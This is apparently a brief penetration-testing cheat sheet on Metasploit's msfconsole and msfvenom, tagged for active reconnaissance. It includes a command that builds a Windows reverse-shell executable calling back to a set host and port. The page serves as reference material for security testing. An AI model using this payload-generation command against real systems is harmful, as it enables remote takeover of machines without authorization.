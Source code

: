 ```yaml
---
title: Metasploit
desc: Provides security vulnerabilities and exploit using payloads. It contains Msfconsole, Msfvenom
tags: [ActiveRecon, Linux]
alts: [ExploitDB, Gobuster, Searchsploit]
website:
---
```


## Msfconsole

```sh
msfconsole
```

## Msfvenom - Standalone payload geenrator

```sh
# Get payloads
msfvenom -l payloads
msfvenom -l payloads | grep windows | grep reverse | grep shell

# Show options
msfvenom -p windows/shell_reverse_tcp --list-options

# Set options and execute
msfvenom -p windows/shell_reverse_tcp LHOST=10.4.62.234 LPORT=4444 -f exe > rshell.exe
```